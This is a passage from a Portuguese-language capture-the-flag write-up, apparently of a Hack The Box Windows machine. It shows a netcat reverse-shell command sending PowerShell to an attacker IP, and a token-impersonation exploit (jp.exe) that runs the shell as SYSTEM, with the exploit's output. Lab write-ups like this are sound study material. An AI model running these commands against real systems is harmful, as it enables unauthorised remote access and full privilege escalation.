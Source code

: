 Com o netcat na máquina alvo, podemos usar o próprio `echo` do Windows para criarmos um script `reverse.bat` com o comando para nos enviar um Power Shell com o netcat.

```cmd
C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.15.185 8444 > reverse.bat  
```
<img src="/img/htb/htb-shield-11.png">

Com tuddo pronto, podemos setar um netcat para ouvir na porta 8444, que foi a utilizada em nosso script e enviar o comando para o exploit.

```cmd
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\reverse.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

O exploit executou nosso script e nos deu um reverse shell com privilégios administrativos!!!
